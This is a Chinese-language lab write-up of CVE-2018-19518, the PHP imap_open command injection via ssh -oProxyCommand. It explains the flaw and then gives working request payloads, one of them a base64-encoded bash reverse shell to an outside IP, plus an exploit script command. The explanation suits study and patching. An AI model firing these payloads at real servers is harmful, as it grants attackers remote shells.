 ```yaml
---
title: CVE-2018-19518
date: 2023-09-03T15:29:52+08:00
updated: 2023-07-31T17:06:39+08:00
categories: 
- 渗透测试
- 漏洞复现
- Php
---
```


### 漏洞介绍

PHP 的imap_open函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。

该漏洞的存在是因为受影响的软件的imap_open函数在将邮箱名称传递给rsh或ssh命令之前不正确地过滤邮箱名称。

如果启用了rsh和ssh功能并且rsh命令是ssh命令的符号链接，则攻击者可以通过向目标系统发送包含-oProxyCommand参数的恶意IMAP服务器名称来利用此漏洞。

#### IMAP

IMAP（Internet Message Access Protocol）是一种电子邮件协议，用于在邮件客户端和邮件服务器之间传递电子邮件。IMAP 是一种客户端/服务器协议，允许用户在多个设备上访问其电子邮件，并在邮件服务器上保留电子邮件的完整副本。

IMAP 协议允许用户通过电子邮件客户端（例如 Microsoft Outlook、Mozilla Thunderbird 等）访问远程邮件服务器上的电子邮件。IMAP 服务器存储用户的电子邮件，客户端可以通过 IMAP 协议连接到服务器，检索和管理电子邮件。

#### imap_open()

`imap_open` 函数是 PHP 中用来连接一个远程的 IMAP (Internet Message Access Protocol) 邮件服务器的函数。它可以让你使用 PHP 脚本来读取和操作远程邮件服务器中的邮件。

```php
resource imap_open(string $mailbox, string $username, string $password [, int $options = 0 [, int $n_retries = 0 [, array $params = array()]]])
```

如果连接成功，则返回一个 IMAP 资源，可用于后续 IMAP 函数调用。如果连接失败，则返回 `false`。

#### -oProxyCommand

`-oProxyCommand` 参数是用于 SSH 客户端命令 `ssh` 的选项之一，它允许用户指定一个命令来代替 SSH 直接连接远程主机。该选项的作用是在 SSH 连接之前执行指定的命令，并将其输出作为 SSH 连接的输入。

具体而言，`-oProxyCommand` 参数可以用于通过一个中间主机（例如跳板机）访问无法直接访问的远程主机。该参数指定的命令可以是一个将本地主机与跳板机连接的命令，也可以是一个将跳板机与远程主机连接的命令。通过这种方式，SSH 客户端可以通过跳板机访问到远程主机，从而实现远程访问。

```
ssh -oProxyCommand="ssh user1@jumpbox nc remote_host 22" user2@remote_host
```

`-oProxyCommand` 参数指定了一个代理命令，它首先通过 SSH 连接到跳板机 `user1@jumpbox`，然后在跳板机上使用 `nc` 命令连接到远程主机 `remote_host` 的 SSH 服务。然后，SSH 客户端使用该连接来访问远程主机 `user2@remote_host`。

### 漏洞影响版本

Ubuntu、Debian、Red Hat、SUSE

PHP 7.2.13， PHP 7.1.25， PHP 7.0.33， PHP 5.6.38已修复该漏洞

### 漏洞利用

根据网上流传的poc

```
hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC9zZGZ6|base64%09-d|sh}&username=111&password=222
```

能够成功写入文件，尝试反弹shell

首先进入容器本身，尝试使用bash命令反弹一个基础shell

![2018](E:\笔记软件\笔记\渗透测试\漏洞复现\Php\2018.png)

测试可行，尝试在外部弹shell,经过测试，使用burp弹shell失败，即使是将状态改成了keep-alive,但是可以通过python脚本建立反向shell

![2018-shell](E:\笔记软件\笔记\渗透测试\漏洞复现\Php\2018-shell.png)

```
python CVE-2018-19518.py 目标ip 目标port self_ip self_port
```

使用的payload，该payload用于写入一个反向shell脚本到/tmp/test,再通过脚本后续执行test文件达到反向shell的目的

```
hostname=x+-oProxyCommand%3decho%09ZWNobyAnYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xOTIuMTY4LjEyMS4xMzUvNDQ0NCAwPiYxJz4vdG1wL3Rlc3Q%3d|base64%09-d|sh}&username=111&password=222
```

附上脚本地址：https://github.com/houqe/EXP_CVE-2018-19518

### 参考链接

https://nosec.org/home/detail/2044.html

